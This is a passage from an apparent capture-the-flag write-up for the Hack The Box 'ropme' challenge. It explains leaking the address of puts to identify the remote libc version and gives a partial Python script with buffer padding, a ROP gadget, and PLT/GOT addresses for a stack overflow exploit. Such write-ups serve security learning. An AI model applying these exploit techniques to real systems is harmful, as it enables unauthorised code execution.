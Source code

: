 Sounds like a lot of work right? Well, luckily for us, we can use a tool that will do the computation for us. Introducing: [libc database][4].

So, we could just plug the virtual address we see for `puts` and libc database will suggest what versions are possible that will yield such virtual address.

![libc_db_input_1](/images/ropme/ld_1.png)

Then we see the suggestions:

![libc_db_input_2](/images/ropme/ld_2.png)

Naturally, the more addresses we provide, the amount of possible versions shrinks.

So, we have everything we need to know, we just have to start working! let's prepare our code to have the remote machine leak the address of `puts`, and let's see if that would be enough for us to learn the libc version of it. If that will not be enough - we might have to also leak `fflush` and `fgets`.

Let's put everything together to one script leaking the `puts` location: (The changes so far are only in the `remote()` function)

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # this is true for libc 2.27
    # this is true for my local machine only
    puts_offset_in_libc = 0x0809c0

    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))

    ans = conn.recv(1024)
    print "server responded:"
    print ans
    print binascii.hexlify(ans)


PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me